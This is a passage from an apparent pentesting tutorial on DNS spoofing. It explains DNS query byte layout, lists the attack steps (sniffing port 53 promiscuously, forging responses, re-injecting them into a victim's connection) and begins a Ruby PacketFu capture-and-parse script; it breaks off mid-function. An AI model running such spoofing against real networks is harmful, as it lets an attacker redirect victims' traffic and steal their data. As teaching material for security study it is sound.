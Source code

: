* The **Queries** starts at _13 byte_ of the payload.
  * The 13th byte specifies the length of the domain name _before_ the _very first dot_ (without last dot com or whatever the top domain is). (Our case: `\x07`) **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
    * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
    *   Each dot after first dot will be replaced with the length of the followed characters

        **e.g.** www.google.co.uk

        * First length (**www**)  => will be replaced with `\x03`
        * First dot(**.google**) => will be replaced with `\x06`
        * Second dot(**.co**)    => will be replaced with `\x02`
        * Third dot(**.uk**)     => will be replaced with `\x02`
  * The very end of the domain name string is terminated by a `\x00`.
  * The next 2 bytes refers to the **type of the query**. (Our case: `\x00\x01`)

**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
  * We need to know the domain length
  * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll divide our tasks then wrap it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]
```